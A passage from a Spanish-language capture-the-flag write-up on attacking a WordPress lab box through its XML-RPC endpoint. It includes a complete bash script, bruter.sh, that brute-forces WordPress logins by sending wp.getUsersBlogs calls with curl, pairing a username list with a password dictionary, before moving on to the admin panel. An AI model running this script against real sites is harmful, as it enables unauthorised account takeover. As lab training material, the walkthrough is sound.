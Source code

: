 Buscando en el cuerpo de la respuesta podemos ver que nuestro método **wp.getUsersBlogs** está habilitado }:).  


### bruter.sh

**wp.getUsersBlogs** nos permite consultar los blogs creados por un usuario específico pero para poder obtenerlos debemos autenticarnos como un usuario válido de WordPress, gracias a ***getUsers.sh*** ya debemos tener los usuarios válidos en el archivo ***usuarios-wp.txt*** ahora solo resta ejecutar nuestro script y pasarle como parametro el host a atacar y el diccionario pero por defecto utiliza el diccionario de nmap `/usr/share/nmap/nselib/data/passwords.lst`. 

`./bruter.sh `


```shell
#!/bin/bash

if [[ -z $@ ]]; then
  echo "Modo de uso: $0 [HOST] [DICCIONARIO]"
fi

host="$1"
dict="$2"

for user in $(cat usuarios-wp.txt); do
	for psw in $(cat $dict); do 
		echo " 
		<methodCall>
			<methodName>wp.getUsersBlogs</methodName>
			<params>
				<param><value>$user</value></param>
				<param><value>$psw</value></param>
				</params>
		</methodCall>
		" > datos.xml
		echo "Probando $user:$psw"

		if [[ ! $(curl -s "$host/xmlrpc.php" -d @"datos.xml" | grep "Incorrect" &)  ]]; then
			echo "[+] $user:$psw"
			rm datos.xml
			exit 0
		fi; wait

		rm datos.xml

	done
done
```

Una vez que obtuvimos las credenciales podemos iniciar sesión en <http://blog.thm/wp-admin/> y lo primero que veremos sera el panel de administración:  

